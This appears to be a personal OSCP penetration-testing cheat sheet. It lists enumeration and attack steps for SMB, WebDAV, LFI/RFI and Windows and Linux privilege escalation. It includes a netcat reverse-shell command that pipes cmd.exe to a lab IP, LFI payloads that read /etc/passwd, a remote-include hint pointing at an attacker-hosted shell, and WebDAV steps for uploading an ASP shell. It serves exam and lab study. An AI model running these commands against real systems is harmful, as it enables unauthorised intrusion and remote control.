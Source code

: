 # OSCP Services and Things-To-Try

## Services

__SSH (22)__
* Fingerprint server/OS, SSH key
* Basic auth-bypass (user=Patrick pass=Patrick) => Privesc `$ sudo su` + `$ su root`

__HTTP (80|8080)__
* Curl for HTTP header

__Telnet (23)__
* Stuff

__SMTP (25)__
* Stuff

__SMB / NETBIOS / SMBD (135-139 - 445)__

SMB enumeration
```bash
$ nmblookup -A target
$ smbclient //MOUNT/share -I target -N
$ rpcclient -U "" target
$ enum4linux target        // enum info from Windows and Samba hosts 

# Find named pipes
`msfconsole> use auxiliary/scanner/smb/pipe_auditor`
```

Things to try:
* Accessing shared dirs: `smbclient \\\\10.11.1.75\\Users`
    * `smb:\> put src_file remote_file`
    * `smb:\> get remote_file`
    * Put nc.exe => reverse shell
    * Get password files => access via. ssh/ rdp
* MS17-010 Code Exec
    * `PsExec64.exe \\10.11.1.49 -u Alice -p aliceishere ipconfig` (see more cmds: https://ss64.com/nt/psexec.html)
    * `runas`
    * `nc.exe 10.11.0.42 443 -e cmd.exe`
    * Add new admin account: https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit
* Privesc
    * Mount drives: `net use z: \\10.11.1.49\Users /user:alice aliceishere`
    

Exploits:
* [MS08-067] NetAPI module in Windows SMB
* [MS17_010] Eternal blue detection: `use auxiliary/scanner/smb/smb_ms17_010`
* [MS17-010 ALTERNATIVE METHOD]: Adding new admin account https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit

__SMBD / SAMBA (139)__
* SMBD/Sambda is a server to provide SMB service to clients
* Samba 2.2.x remote buffer overflow: https://www.exploit-db.com/exploits/7

__MSRPC (135)__
* Stuff

## Web

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers
* https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/
* ColdFusion LFI: http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

WEBDAV vulns - using tools . 
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp  
http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html  
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```

Apache
* Log paths: https://wiki.apache.org/httpd/DistrosDefaultLayout

LFI / RFI
(LFI = HIGH CHANCE OF RFI, SO TRY TO INCLUDE HTTP://ATTACKER/RSHELL.PHP)
```
# Append NULL bytes (prevent .ext concat to the end by application)
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=../../../etc/passwd%en
http://example.com/index.php?page=../../../etc/passwd%00%en
```

PHP
* Check `phpinfo()`
* RFI: If reverse-shell doesn't work, include `<?php phpinfo();?>` to check for banned functions

## Privesc - LINUX

UDEV
* Guide: http://www.madirish.net/370
* Exploit Code: https://www.exploit-db.com/exploits/8478

## Privesc - WINDOWS

Accesschk.exe:
* http://www.fuzzysecurity.com/tutorials/16.html
```
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

Psexec.exe:
* https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15

Net Use:
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15


## Reverse Shell Tips

Reverse shell cheatsheet: http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).


## Metasploit

Msfvenom commands:
* https://netsec.ws/?p=331




